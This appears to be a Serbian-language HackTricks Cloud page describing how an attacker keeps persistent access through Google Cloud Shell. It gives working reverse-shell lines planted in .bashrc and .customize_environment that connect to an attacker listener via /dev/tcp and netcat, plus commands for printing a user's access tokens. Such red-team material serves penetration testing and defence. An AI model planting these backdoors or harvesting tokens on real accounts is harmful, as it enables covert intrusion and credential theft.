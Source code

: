 # GCP - Cloud Shell Persistencija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github repozitorijume.

</details>

## Cloud Shell

Za više informacija pogledajte:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistentna Pozadinska Vrata

[**Google Cloud Shell**](https://cloud.google.com/shell/) pruža vam pristup komandnoj liniji za vaše cloud resurse direktno iz vašeg pregledača bez dodatnih troškova.

Možete pristupiti Google-ovom Cloud Shell-u sa **web konzole** ili pokretanjem **`gcloud cloud-shell ssh`**.

Ova konzola ima neke zanimljive mogućnosti za napadače:

1. **Svaki Google korisnik sa pristupom Google Cloud-u** ima pristup potpuno autentifikovanom Cloud Shell instanci (Servisni nalozi mogu, čak i ako su Vlasnici organizacije).
2. Pomenuta instanca će **zadržati svoj matični direktorijum najmanje 120 dana** ako se ne desi nikakva aktivnost.
3. Ne postoji **mogućnost za organizaciju da nadgleda** aktivnost te instance.

To u osnovi znači da napadač može postaviti pozadinska vrata u matičnom direktorijumu korisnika i sve dok se korisnik povezuje sa GC Shell-om svakih 120 dana barem, pozadinska vrata će preživeti i napadač će dobiti shell svaki put kada se pokrene samo radeći:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

U home folderu postoji još jedan fajl pod nazivom **`.customize_environment`** koji će se **izvršiti svaki put** kada korisnik pristupi **cloud shell-u** (kao u prethodnoj tehnici). Samo ubacite prethodnu backdoor ili neku sličnu kako biste održali postojanost dok god korisnik "često" koristi cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Važno je napomenuti da će se **prvi put kada se izvrši radnja koja zahteva autentikaciju**, pojaviti prozor za autorizaciju u korisnikovom pregledaču. Ovaj prozor mora biti prihvaćen pre nego što se komanda može izvršiti. Ako se pojavi neočekivani prozor, to bi moglo izazvati sumnju i potencijalno ugroziti korišćenu metodu upornosti.
{% endhint %}

Ovo je prozor koji se pojavljuje prilikom izvršavanja `gcloud projects list` iz cloud shell-a (kao napadač) viđen u korisničkoj sesiji pregledača:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Međutim, ako je korisnik aktivno koristio cloud shell, prozor zahteva za autentikaciju se neće pojaviti i možete **prikupiti token korisnika sa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Kako se uspostavlja SSH veza

U osnovi, koriste se ove 3 API poziva:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (će vam omogućiti da dodate svoj javni ključ koji ste kreirali lokalno)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (će pokrenuti instancu)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (će vam reći IP adresu Google Cloud Shell-a)

Međutim, možete pronaći dodatne informacije na [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Reference

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github repozitorijume.

</details>
